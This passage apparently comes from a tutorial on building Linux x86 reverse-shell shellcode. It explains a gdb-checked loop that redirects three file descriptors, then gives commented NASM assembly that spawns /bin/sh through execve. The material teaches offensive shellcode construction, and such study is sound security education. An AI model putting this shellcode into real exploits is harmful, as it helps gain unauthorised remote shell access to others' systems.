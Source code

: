 `jns` basically jumps to "dup" as long as the signed flag (`SF`) is not set.   

Let's go to debug with `gdb` and check `ecx` value:   
```bash
gdb -q ./rev
```

![gdb ecx -1](./images/14/2021-10-16_13-34.png){width="80%"}       

As you can see, after third `dec ecx` it contains `0xffffffff` which is equal -1 and the `SF` got set and the shellcode flow continues.     

In result, all three output are redirected :)       

### launch the shell with execve

This part of code are similar to the example from the first part, but again with a small change:
```nasm
; spawn /bin/sh using execve
; int execve(const char *filename, 
; char *const argv[],char *const envp[]);
mov  al, 0x0b    ; syscall: sys_execve = 11 (mov eax, 11)
inc  ecx         ; argv=0
mov  edx, ecx    ; envp=0
push edx         ; terminating NULL
push 0x68732f2f	 ; "hs//"
push 0x6e69622f	 ; "nib/"
mov  ebx, esp    ; save pointer to filename
int  0x80        ; syscall: exec sys_execve
```
